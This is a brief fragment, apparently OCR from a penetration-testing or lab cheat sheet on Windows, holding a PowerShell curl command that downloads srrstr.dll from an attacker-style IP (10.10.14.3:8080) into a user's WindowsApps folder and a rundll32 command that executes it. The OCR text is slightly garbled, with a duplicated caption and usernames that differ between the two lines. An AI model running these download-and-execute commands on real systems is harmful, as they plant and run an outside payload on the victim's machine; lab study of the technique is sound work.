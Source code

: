 > Enumerate a running service by name with PowerShellEnumerate a running service by name with PowerShell

`curl http ://10.10.14.3:8080/srrstr.dll -O "C:\Users\lafi\AppData\Local\Microsoft\WindowsApps\srrstr.dll"`

> Downloading file with cURL in PowerShell

`rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll`

> Executing custom dll with rundll32.exe